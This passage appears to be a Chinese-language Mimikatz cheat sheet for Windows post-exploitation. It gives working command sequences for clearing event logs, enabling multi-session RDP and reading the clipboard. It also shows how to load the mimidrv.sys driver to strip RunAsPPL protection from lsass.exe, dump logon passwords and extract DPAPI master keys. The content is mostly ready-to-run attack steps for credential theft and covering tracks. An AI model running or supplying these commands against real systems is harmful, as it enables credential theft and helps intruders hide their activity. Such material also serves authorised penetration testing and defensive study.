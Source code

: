 ```bash
```

---

## 后渗透

多用户登录 3389
```
ts::multirdp
```

清除日志
```
event::drop
```

粘贴板信息
```
misc::clip
```

---

## 绕过RunAsPPL

RunAsPPL 有效地阻止了 Mimikatz 访问的内存 lsass.exe

为此 Mimikatz 使用数字签名的驱动程序来删除内核中 Process 对象的保护标志。该文件 mimidrv.sys 必须位于当前文件夹中，以便使用 `!+` 命令作为内核驱动程序服务加载 。然后，使用命令 `!processprotect` 删除保护并最终访问 lsass.exe。

加载之后即可关闭 LSA 保护，正常 dump hash
```
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
```

完成后，可以使用 `!-` 卸载驱动程序。
```
mimikatz # !-
```

---

## DPAPI

查看目标Windows凭据管理器中是否保存有各种系统连接账密
```
cmdkey /l
```

通过读取 Lsass 进程信息，获取当前系统中的 MasterKey，能获得多个 Master Key file 对应的 MasterKey
```
privilege::debug
sekurlsa::dpapi
```
